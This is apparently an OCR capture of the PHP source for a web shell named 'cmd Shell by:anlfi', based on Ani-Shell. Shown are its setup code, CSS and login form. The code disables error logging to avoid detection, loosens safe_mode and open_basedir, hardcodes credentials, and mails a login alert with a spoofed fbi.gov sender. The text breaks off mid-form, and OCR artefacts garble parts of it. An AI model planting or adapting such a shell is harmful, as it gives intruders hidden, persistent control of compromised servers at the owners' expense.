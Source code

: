 ```
<?php/\*==============\*/error\_reporting(0);ini\_set('max\_execution\_time',0);// ------------------------------------- Some header Functions (Need to be on top) ---------------------------------\\/\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\* Defines \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*/$user = "anlfi";$pass = "XXX";$sm = @ini\_get('safe\_mode');$SEPARATOR = '/'; // Default Directory separator$os = "N/D";if(stristr(php\_uname(),"Windows")){        $SEPARATOR = '\\\\';        $os = "Windows";}else if(stristr(php\_uname(),"Linux")){        $os = "Linux";}//\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*/// -------------- Traceback Functionsfunction sendLoginAlert(){    global $ownerEmail;    global $url;    $accesedIp = $\_SERVER\['REMOTE\_ADDR'\];    $randomInt = rand(0,1000000);           # to avoid id blocking    $from = "ani-shell$\[email\]randomInt@fbi.gov\[/email\]";        //echo $from;        if(function\_exists('mail'))    {        $subject = "Shell Accessed -- Ani-Shell --";        $message = "Hey Owner ,                Your Shell(Ani-Shell) located at $url was accessed by $accesedIp                If its not you :-                1. Please check if the shell is secured.        2. Change your user name and Password.        3. Check if lock is 0n!        and Kick that \*\*\*\*\*\* out!                Thanking You        Yours FaithfullyAni-Shell        ";        mail($ownerEmail,$subject,$message,'From:'.$from);    }}//---------------------------------------------------------if(function\_exists('session\_start') && $lock == 'on'){    session\_start();}else{    // The lock will be set to 'off' if the session\_start fuction is disabled i.e if sessions are not supported    $lock = 'off';}//logoutif(isset($\_GET\['logout'\]) && $lock == 'on'){    $\_SESSION\['authenticated'\] = 0;    session\_destroy();    header("location: ".$\_SERVER\['PHP\_SELF'\]);}ini\_set('max\_execution\_time',0);/\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\* Restoring \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*/ini\_restore("safe\_mode");ini\_restore("open\_basedir");if(function\_exists('ini\_set')){    ini\_set('error\_log',NULL);  // No alarming logs    ini\_set('log\_errors',0);    // No logging of errors}else{    ini\_alter('error\_log',NULL);    ini\_alter('log\_errors',0);}// ----------------------------------------------------------------------------------------------------------------?><html><head><title>cmd Shell by:anlfi</title><style>/\*==========================        CSS Section==========================\*/\*{    padding:0;    margin:0;}.alert{    background:red;    color:white;    font-weight:bold;}td.info{    width:0px;}.bind{    border: 1px solid #333333;    margin: 15px auto 0;    font-size: small;}div.end \*{    font-size:small;}div.end{    width:100%;    background:#222;}p.blink{    text-decoration: blink;}body{    background-color:black;    color:rgb(35,182,39);    font-family:Tahoma,Verdana,Arial;    font-size: small;}input.own {    background-color: Green;    color: white;    border : 1px solid #ccc;}blockquote.small{    font-size: smaller;    color: silver;    text-align: center;}table.files{    border-spacing: 10px;    font-size: small;}h1 {    padding: 4px;    padding-bottom: 0px;    margin-right : 5px;}div.logo{    border-right: 1px aqua solid;}div.header{    padding-left: 5px;    font-size: small;    text-align: left;}div.nav{    margin-top:1px;    height:30px;    background-color: #ccc;}div.nav ul{    list-style: none;    padding: 4px;}div.nav li{    float: left;    margin-right: 10px;    text-align:center;}textarea.cmd{    border : 1px solid #111;    background-color : green;    font-family: Shell;    color : white;    margin-top: 10px;    font-size:small;}input.cmd{    background-color:black;    color: white;    width: 400px;    border : 1px solid #ccc;}td.maintext{    font-size: large;}#margins{    margin-left: 10px;    margin-top: 10px;    color:white;}table.top{    border-bottom: 1px solid aqua;    width: 100%;}#borders{    border-top : 1px solid aqua;    border-left:1px solid aqua;    border-bottom: 1px solid aqua;    border-right: 1px solid aqua;    margin-bottom:0;}td.file a , .file a{    color : aqua;    text-decoration:none;}a.dir{    color:white;    font-weight:bold;    text-decoration:none;}td.dir a{    color : white;    text-decoration:none;}td.download,td.download2{    color:green;}#spacing{    padding:10px;    margin-left:200px;}th.header{    background: none repeat scroll 0 0 #191919;    color: white;    border-bottom : 1px solid #333333;}p.warning{    background : red;    color: white;}//--------------------------------CSS END------------------------------------------------------\*/</style></head><body text="rgb(39,245,10)" bgcolor="black"><?phpif(isset($\_POST\['user'\]) && isset($\_POST\['pass'\]) && $lock == 'on'){    if( $\_POST\['user'\] == $user &&         $\_POST\['pass'\] == $pass )    {            $\_SESSION\['authenticated'\] = 1;            // --------------------- Tracebacks --------------------------------            if($tracebackFeature == 'On')            {                sendLoginAlert();            }            // ------------------------------------------------------------------    }}if($lock == 'off'){?>    <p><b>Lock is Switched Off! , The shell can be accessed by anyone!</b></p><?php}if($lock == 'on' && (!isset($\_SESSION\['authenticated'\]) || $\_SESSION\['authenticated'\]!=1) ){?><table>    <tbody>        <tr>            <td width="500px">        <pre><font color="Orange"><b>\[\]--------------cmd Shell-----------------</b></pre>            </td>            <td>                <!-- <h1><?php // echo $greeting;?></h1>                <img src="Logo\_03.png" /> -->                <form method="POST" action="<?php echo $\_SERVER\['PHP\_SELF'\];?>">                <input in!"/>
```
